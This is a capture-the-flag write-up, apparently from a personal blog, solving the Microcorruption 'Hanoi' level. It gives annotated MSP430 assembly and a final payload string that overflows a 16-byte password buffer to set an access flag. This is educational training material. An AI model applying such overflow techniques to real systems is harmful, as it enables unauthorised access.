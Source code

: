 ```yaml
---
title: "microcorruption - hanoi"
date: 2018-03-05T19:08:33+02:00
description: "solving the hanoi microcorruption challenge"
categories: 
- ctf
- exploit
- assembly
- microcorruption
- hanoi
---
```


{{< figure src="/images/microcorruption/microcorruption.png" >}}

This post is part of the series of solving [microcorruption.com](https://microcorruption.com) ctf challenges which continues from the [previous challenge](https://leonjza.github.io/blog/2018/03/04/microcorruption---sydney/) called _Sydney_. This challenge is titled _Hanoi_.

If you were to read the description when you enter the challenge, one would see the following towards the bottom:

> LockIT Pro Hardware Security Module 1 stores the login password, ensuring users can not access the password through other means. The LockIT Pro can send the LockIT Pro HSM-1 a password, and the HSM will return if the password is correct by setting a flag in memory.

Ok, so mention of a HSM here. Neat! Lets take a look at how that works!
<!--more-->

## hanoi

This time round, our `main` function is quite a bit shorter than the previous programs we have analysed:

```asm
4438 <main>
4438:  b012 2045      call  #0x4520 <login>
443c:  0f43           clr   r15
```

Just a call to `login` which in turn has a similar flow to that which we saw in the previous `main` functions. A semi-shortened, annotated version of `login` is:

```asm
4520 <login>
4520:  c243 1024      mov.b #0x0, &0x2410
4524:  3f40 7e44      mov   #0x447e "Enter the password to continue.", r15
4528:  b012 de45      call  #0x45de <puts>

; but what if i put in more than 16 characters? ;)
452c:  3f40 9e44      mov   #0x449e "Remember: passwords are between 8 and 16 characters.", r15
4530:  b012 de45      call  #0x45de <puts>

[.. routine to get the password ..]

4544:  b012 5444      call  #0x4454 <test_password_valid>
4548:  0f93           tst   r15
454a:  0324           jz    $+0x8

; erm? what is going on here?
454c:  f240 5000 1024 mov.b #0x50, &0x2410
4552:  3f40 d344      mov   #0x44d3 "Testing if password is valid.", r15
4556:  b012 de45      call  #0x45de <puts>

; and what about here?
455a:  f290 6300 1024 cmp.b #0x63, &0x2410
4560:  0720           jne   #0x4570 <login+0x50o>

; grants us access!
4562:  3f40 f144      mov   #0x44f1 "Access granted.", r15
4566:  b012 de45      call  #0x45de <puts>
456a:  b012 4844      call  #0x4448 <unlock_door>
456e:  3041           ret

; failed
4570:  3f40 0145      mov   #0x4501 "That password is not correct.", r15
4574:  b012 de45      call  #0x45de <puts>
4578:  3041           ret
```

Some interesting things happening there it seems. I think the next routine to check out is most definitely `test_password_valid`. Taking a look at that routine looks as follows:

```asm
4454 <test_password_valid>

; move a bunh of stuff around
4454:  0412           push  r4
4456:  0441           mov   sp, r4
4458:  2453           incd  r4
445a:  2183           decd  sp
445c:  c443 fcff      mov.b #0x0, -0x4(r4)  ; 0x2400 at this stage
4460:  3e40 fcff      mov   #0xfffc, r14
4464:  0e54           add   r4, r14
4466:  0e12           push  r14
4468:  0f12           push  r15

; push 0x7d into the stack and prep for a syscall
446a:  3012 7d00      push  #0x7d
446e:  b012 7a45      call  #0x457a <INT>

[.. end this routine ..]
447c:  3041           ret
```

Hmm ok, a bunch of `mov` instructions and other arithmetic and finally syscall with interrupt `0x7d` which is described as _"Interface with the HSM-1. Set a flag in memory if the password passed in is
correct."_ according to the locks [manual](https://microcorruption.com/manual.pdf).

So not _that_ interesting after all. Looking at `login` again, it seems like we would ideally want to have `unlock_door` called from `login` at `0x456a` to win. But how to get there?

### debugging

My static analysis capabilities were pretty much exhausted here, and it was now time for some runtime debugging. I manually stepped through the program, focussing on the `test_password_valid` routine. I noticed the password I entered as `12345678` was stored at offset `0x2400` and referenced when the interrupt for the HSM to check was set up.

{{< figure src="/images/microcorruption/hanoi_password_in_memory.png" >}}

A few steps through this routine with no obvious ways to fool it, I decided to park it for now and see what happens after `test_password_valid` is done. This is now back at `login` once `test_password_valid` has returned:

```asm
; test_password_valid has returned
4552:  3f40 d344      mov   #0x44d3 "Testing if password is valid.", r15
4556:  b012 de45      call  #0x45de <puts>

; what is this cmp doing?
455a:  f290 6300 1024 cmp.b #0x63, &0x2410
4560:  0720           jne   #0x4570 <login+0x50>

; making the jne not get taken will land us at unlock_door
4562:  3f40 f144      mov   #0x44f1 "Access granted.", r15
4566:  b012 de45      call  #0x45de <puts>
456a:  b012 4844      call  #0x4448 <unlock_door>
```

I noticed the `cmp.b #0x63, &0x2410` instruction again and realised that `0x2410` is close to the area where my password buffer was being stored in memory. Infact, this was just 16 bytes away from `0x2400`! Now remember that message telling us passwords are supposed to be 8 to 16 characters long? Well, looks like that is is because char 17 and 18 forms part of this `cmp.b` instruction!

If we can make the aforementioned instruction pass the test checking if the value at that memory address is `0x63`, (ASCII character `c`), then we can get past the `jne` instruction at `0x4560`, eventually landing us in `unlock_door` routine.

So given that the distance to `0x2410` is 16 bytes from `0x2400` where our password buffer is stored, lets see if we can overflow the buffer to `0x2410`.

```python
>>> print('A' * 16 + 'c')
AAAAAAAAAAAAAAAAc
```

I set a breakpoint at `0x455a` with `break 455a` in the debugger and continued the CPU entering `AAAAAAAAAAAAAAAAc` as the password when prompted.

{{< figure src="/images/microcorruption/hanoi_jump_little_endian.png" >}}

After hitting the breakpoint and inspecting the contents of memory address `0x2410` with `read 2410` in the debugger reveals that the byte `0x63` is at `0x2410` (thanks to our overflow). This results in the `cmp.b` instruction setting the status register to `0x3` (CZ), which in turn means the jump is not taken!

## solution

Enter `AAAAAAAAAAAAAAAAc` as ASCII or `4141414141414141414141414141414163` as hex encoded input.

## other challenges

For my other writes for the microcorruption series, checkout [this](https://leonjza.github.io/categories/microcorruption/) link.
